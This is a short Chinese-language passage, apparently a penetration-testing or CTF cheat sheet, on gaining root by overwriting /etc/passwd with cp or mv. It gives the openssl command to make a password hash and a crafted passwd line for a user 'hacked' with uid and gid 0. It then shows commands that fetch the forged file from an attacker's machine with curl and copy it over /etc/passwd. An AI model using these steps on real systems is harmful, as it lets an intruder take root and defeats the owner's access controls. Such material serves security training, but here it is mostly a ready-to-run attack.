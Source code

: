 `cp` 和 `mv` 命令的核心理念就是覆盖`/etc/passwd`或`/etc/shadow `文件，从而获取 root 权限

使用 openssl 可以生成 linux 密码 hash：
```
#生成密码为pass123的 hash

openssl passwd -1 -salt ignite pass123
>> $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```
构造 passwd 中的用户信息：
```
# 0:0表示 uid 和 gid 都是 0，等同于 root 用户，这样我们切换到该用户后，实际权限就是 root
# hacked:pass123

hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

在本地主机（例如 kali）构造好 passwd 文件之后，使用 python-http.server 将 passwd 上传到目标机器，然后覆盖即可:

```
curl http://192.168.119.189:8000/passwd >>passwd
cp passwd /etc/passwd
